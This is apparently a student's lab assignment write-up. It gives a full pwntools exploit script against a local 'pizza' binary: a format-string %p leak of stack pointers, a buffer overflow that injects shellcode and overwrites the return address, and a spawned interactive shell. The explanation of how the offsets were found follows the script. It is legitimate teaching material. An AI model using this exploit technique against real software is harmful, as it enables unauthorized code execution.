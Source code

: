 # Assignment 10

## Code
```python
#!/usr/bin/python3

from pwn import *

# Print out the stack before and after the passed RSP
def print_stack(rsp, num_words):
    orig_rsp = rsp
    start_address = rsp + int((8*num_words)/2)
    end_address = rsp - int((8*num_words)/2)
    rsp = start_address
    while rsp > end_address:
        data = core.read(rsp, 8)
        print(f"0x{rsp:x}:\t{data}", end='')
        if rsp == orig_rsp:
            print(" <=")
        else:
            print("")
        
        rsp -= 8



# Executable and Linkable Format
elf = ELF("./pizza")
context(arch='amd64', os='linux', endian='little', word_size=64)
getname_address = elf.symbols["getname"]



# Get our shellcode to-be-executed
shellcode = asm(shellcraft.amd64.linux.sh())


# "Name" Input -- actually prints out some pointers
input1 = b"%p %p %p %p %p %p %p %p %p %p %p"

# Number of Pizzas Input
input2 = b"8"



victim = process("./pizza")

# Get Introduction Line
print(str(victim.recvline(), "latin-1"))

# Send our "Name" -- actually "%p"s
victim.sendline(input1)

# "Hi ...."
percent_p_output_str = str(victim.recvline(), "latin-1")
print(percent_p_output_str)


# Gets an address from stack -> exactly 224 bytes away from start of shellcode
percent_p_output = percent_p_output_str.split(" ")
a_stack_ptr = int(percent_p_output[2], base=16)


# Send the # of Pizzas
victim.sendline(input2)


# Calculate our shellcode address and format our input
shellcode_addr = a_stack_ptr + 224
input3 = shellcode + b"A"*88 + shellcode_addr.to_bytes(8, 'little')


# Send our "Credit Card Number" -- actually our shellcode, buffer, and new return address
victim.sendline(input3)


# Should only be called if buffer overflow was successful
victim.interactive()

# Otherwise, we crashed, and the following is done:
victim.wait()

# Get the coredump file
core = victim.corefile
rsp = core.rsp
rbp = core.rbp
rip = core.rip

# Print out the stack around our stack pointer at crash
print_stack(rsp, 100)

exit()
```


## Explanations

### How I Designed My Code
I designed my code heavily following the method we talked about in class and outlined in the assignment instructions. I started out by attempting to get some pointers out of the code -- which I achieved through the "insert your name:" field of the pizza program. If a user puts any number of `%p`s into this input field, the program will print out various pointers. I ended printing out multiple pointers and after running the program a couple of times, I noticed some reoccuring formats of pointers (and there are a lot larger than the other values) and determined these to be stack pointers. Here is an example of the output:

![Pointer Output](./src/10-output-addr.png)

Then, I proceeded to work on crashing the program -- which I managed to do through execessive input into the "credit card number for payment" input field. I then used the tried-and-true, professional, method of guess-and-check to see exactly how many bytes I was able to enter into the buffer before it crashed. After a couple of iterations, I determined that the program will crash if I, into the credit card number buffer, inputted my shellcode and 88 other characters (`A`s in my case). And, if I inputted less than 88 characters, we would not crash. With this knowledge I knew that this position on the stack is where the return address is located -- and therefore the location I need to overwrite.

With this knowledge, I moved onto the next step -- determining what return address I need to put into that location. I needed to put the location of my shellcode into that slot, and therefore needed to find the location of my shellcode. I did this by reading the output from the coredump file. I created some code to print out the contents of the stack (the address and the value there) and looked for my shellcode. Then, after finding my shellcode, which started with `jhH\xb8/bin` in my output, I noted the stack address of this word. I then did some simple subtraction between the shellcode address and the leaked pointer from the name input buffer and found out that the shellcode is exactly 224 bytes away from the second pointer leaked in the first input field. I through this process multiple time and each time the difference was 224 bytes. An example shellcode address output:

![Shellcode Address](./src/10-shellcode-addr.png)

And when combined with the information in the first image:
```python
shellcode =   0x7ffc87d496a0
a_stack_ptr = 0x7ffc87d495c0
print(shellcode - a_stack_ptr) # Prints out '224'
```

Finally, since I could calculate the address of my inputted shellcode, I added that shellcode address (which was the leaked pointer + 224) to the end of my input into the credit card number input field, thereby overwritting the return address to the address of my shellcode.


### What My Code is Doing
My code first sets up the environment for python's `pwntools` package to run. Then, my code gets the byte-code from some shellcode from the same `pwntools` package. My program then defines some input for the reasons as noted in the section above -- specially a string of `%p`s to input into the name input field. Next, my code starts the `pizza` program, and sends it the string of `%p`s. My program then gets the output from the pizza program and saves the second leaked pointer -- which through previous program runs I determined to be a stack pointer. Then, the number of pizzas is inputted (which is not important), and then we start do some calculations. The program takes the leaked stack pointer that we saved, and add 224 to it -- thereby creating the address of my shellcode I am about to input. Then I create my input string, which includes the shellcode, the 88-byte buffer of `A`s, and the address of the shellcode. The program then sends this byte string to the pizza program, which overwrites the original return address of the pizza program and returns instead to my inputted shellcode. I then call `vicitim.interactive` in my program, which gives terminal control (STDIN) back to me on the keyboard, allowing me to interactive with the newly spawned shell.

In the case the program crashes (too much input, for example), the core file is analyzed and 50 words (400 bytes) are read before the stack pointer and 50 words after the stack pointer, and printed out to the screen for analysis.